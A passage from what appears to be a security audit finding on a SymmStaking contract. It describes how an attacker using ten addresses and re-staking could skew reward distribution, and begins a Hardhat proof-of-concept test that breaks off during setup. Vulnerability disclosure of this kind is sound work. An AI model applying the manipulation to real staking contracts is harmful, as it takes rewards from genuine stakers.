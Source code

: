 1. Normal User Behavior
- Alice stakes 100 SYMM tokens in the contract.

- She leaves her tokens staked for 30 days and earns rewards based on the staking duration.

- After 30 days, she withdraws her tokens along with the earned rewards.

2. Attacker Behavior (Exploiting the Vulnerability)
- Bob (an attacker) creates 10 different addresses.

- He stakes 100 SYMM tokens in each address (a total of 1000 SYMM tokens).

- Just before the reward distribution period ends, Bob withdraws all tokens from the 10 addresses and re-stakes them in 10 new addresses.

By doing this, Bob ensures that his addresses always have the maximum staked balance during the reward calculation period, earning disproportionately high rewards.

3. Impact on Genuine Users
- Alice (a genuine user) stakes her tokens for the entire reward period but receives fewer rewards because Bob's manipulation alters the reward distribution.

- Bob earns a disproportionate share of rewards, leaving less for Alice and other genuine users.

### PoC

The following test case in hardhat demonstrates the vulnerability:
```typescript
import { expect } from "chai";
import { ethers } from "hardhat";
import { SignerWithAddress } from "@nomicfoundation/hardhat-ethers/signers";
import { IMintableERC20, SymmStaking } from "../typechain-types";

describe("SymmStaking - Reward Distribution Manipulation", function () {
  let symmStaking: SymmStaking;
  let stakingToken: IMintableERC20;
  let rewardToken: IMintableERC20;
  let admin: SignerWithAddress;
  let user1: SignerWithAddress;
  let user2: SignerWithAddress;

  beforeEach(async function () {
    [admin, user1, user2] = await ethers.getSigners();

    // Deploy staking token (SYMM) with a mint function
    const ERC20Factory = await ethers.getContractFactory("MockERC20");
    stakingToken = (await ERC20Factory.deploy("SYMM", "SYMM")) as unknown as IMintableERC20;
    await stakingToken.waitForDeployment();

    // Deploy reward token (USDT) with a mint function
    rewardToken = (await ERC20Factory.deploy("USDT", "USDT")) as unknown as IMintableERC20;
    await rewardToken.waitForDeployment();

    // Deploy SymmStaking contract
    const SymmStakingFactory = await ethers.getContractFactory("SymmStaking");
    symmStaking = await SymmStakingFactory.deploy();
    await symmStaking.waitForDeployment();

    // Initialize the staking contract
    await symmStaking.initialize(admin.address, await stakingToken.getAddress());

    // Mint tokens to users
    await stakingToken.mint(user1.address, ethers.parseEther("100"));
    await stakingToken.mint(user2.address, ethers.parseEther("100"));
    await rewardToken.mint(admin.address, ethers.parseEther("1000"));

    // Approve staking contract to spend tokens
```